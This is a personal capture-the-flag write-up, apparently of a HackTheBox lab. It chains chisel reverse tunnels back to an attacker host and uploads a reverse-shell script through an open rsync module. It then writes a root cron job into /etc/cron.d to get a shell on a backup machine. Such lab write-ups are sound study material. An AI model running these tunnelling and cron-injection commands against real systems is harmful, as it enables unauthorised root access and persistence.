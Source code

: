 Before doing the cron that 0xdf does I want to go full manual with the manpage and understood rsync cant read the file system like I hoped and continued on

Because we are cool create another two-rs named cron-esc and change the port number for the following backed-up cron. Without watching the Ippsec video:
```bash
# First start s listener on your host
rlwrap ncat -lvnp 10007
# Then on the www machine as Root
# Create a tunnel with chisel back to NodeRed client
# this did not work
# nohup ./chisel client 10.10.14.24:10000 R:127.0.0.1:10007:172.19.0.4:10007 &
# Node Red - Know I could just kill jobs
nohup ./chisel client 10.10.14.24:10000 10008:127.0.0.1:10008 &
# Www as root
nohup ./chisel client 10.10.14.24:10000 R:127.0.0.1:10008:172.19.0.4:10008 &

chmod +x * /tmp/* 
cp two-rs cron-esc.s
# - First attempt
sed -i 's/172.19.0.4/172.19.0.3/g' cron-esc.sh
sed -i 's/10006/10007/g' cron-esc.sh
# - Second attempt
sed -i 's/172.19.0.3/172.20.0.3/g' cron-esc.sh
sed -i 's/10007/10008/g' cron-esc.sh
rsync -a cron-esc.sh rsync://backup:873/src/tmp/
echo '* * * * * root sh /tmp/cron-esc.sh' > shell
rsync -a shell rsync://backup:873/src/etc/cron.d/


rsync rsync://backup:873/src/tmp/
rsync rsync://backup:873/src/etc/cron.d/

```

Checked [Ippsec Video](https://www.youtube.com/watch?v=Yp4oxoQIBAM&t=3615s) after both attempts failed

I only had one thing wrong! - I thought that the endpoint would always be the server but with the chain of tunnels it can be the client
```bash
kali -> nodered  -> www  -> backup
# kali 
rlwrap ncat -lvnp 10007 
# nodered = 10000 because the kali serveris 10000 
chisel client kali:10000 10007:127.0.0.1:10000 
# www - 10007 
chisel client noderedIP:10007 10007:127.0.0.1:10007
``` 

Wow
![](insidethebackup.png)

